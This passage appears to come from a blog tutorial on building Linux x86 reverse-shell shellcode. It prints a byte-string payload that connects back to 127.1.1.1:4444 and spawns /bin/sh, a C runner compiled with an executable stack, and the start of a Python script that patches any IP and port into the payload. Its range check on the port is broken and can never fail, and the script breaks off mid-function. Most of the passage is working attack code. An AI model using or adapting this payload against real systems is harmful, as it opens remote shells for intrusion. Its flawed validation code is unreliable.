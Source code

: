 Then, replace the code at the top (`run.c`) with:
```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
  return 1;
}
```

Compile, prepare listener and run:          
```bash
gcc -z execstack -m32 -o run run.c
./run
```

![run C code](/assets/images/14/2021-10-16_14-03.png){:class="img-responsive"}       

As you can see, everything work perfectly. Now, you can use this shellcode and inject it into a process.   

But there is one caveat. Let's go to make the ip and port easily configurable.    

### configurable IP and port

To solve this problem I created a simple python script (`super_shellcode.py`):
```py
import socket
import argparse
import sys

BLUE = '\033[94m'
GREEN = '\033[92m'
YELLOW = '\033[93m'
RED = '\033[91m'
ENDC = '\033[0m'

def my_super_shellcode(host, port):
    print (BLUE + "let's go to create your super shellcode..." + ENDC)
    if int(port) < 1 and int(port) > 65535:
        print (RED + "port number must be in 1-65535" + ENDC)
        sys.exit()
    if int(port) >= 1 and int(port) < 1024:
        print (YELLOW + "you must be a root" + ENDC)
    if len(host.split(".")) != 4:
        print (RED + "invalid host address :(" + ENDC)
        sys.exit()

    h = socket.inet_aton(host).hex()
    hl = [h[i:i+2] for i in range(0, len(h), 2)]
    if "00" in hl:
        print (YELLOW + "host address will cause null bytes to be in shellcode :(" + ENDC)
    h1, h2, h3, h4 = hl

    shellcode_host = "\\x" + h1 + "\\x" + h2 + "\\x" + h3 + "\\x" + h4
```
